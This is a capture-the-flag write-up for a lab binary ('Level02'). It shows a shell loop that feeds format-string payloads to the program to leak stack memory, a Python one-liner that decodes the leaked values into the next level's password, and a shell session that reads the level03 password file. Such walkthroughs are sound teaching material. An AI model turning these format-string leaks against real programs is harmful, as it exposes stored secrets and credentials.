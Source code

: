 # Level02

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we're facing a [format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability. We know that the needed password to spawn a shell is `level03` password and since it is read before the vulnerable `printf()` call, this variable has to be somewhere on the stack. Using the vulnerability and a small script we can print out what's on the stack...



```shell
  $> for (( i = 1; i < 64; i++ )); do echo "$i - %$i\$p" | ./level02 | grep "does not have access" | cut -d ' ' -f3; done

  ...
  0x756e505234376848
  0x45414a3561733951
  0x377a7143574e6758
  0x354a35686e475873
  0x48336750664b394d
  ...  
```

We find those 5 promissing values but we need to convert them back into ASCII with a little twist, they're displayed in little-endian we need to convert it back to big-endian.

```shell
  $> python -c "print '756e505234376848'.decode('hex')[::-1] + '45414a3561733951'.decode('hex')[::-1] + '377a7143574e6758'.decode('hex')[::-1] + '354a35686e475873'.decode('hex')[::-1] + '48336750664b394d'.decode('hex')[::-1]"
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Now if we try it, we can see it works like a charm!

```shell
  $> ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: whatever
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, whatever!
  $ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

> Note that, the username is useless, you can put whatever you want.

So next user credentials pair is `level03:Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Check [here](../source.c) for reproduction source-code of this binary.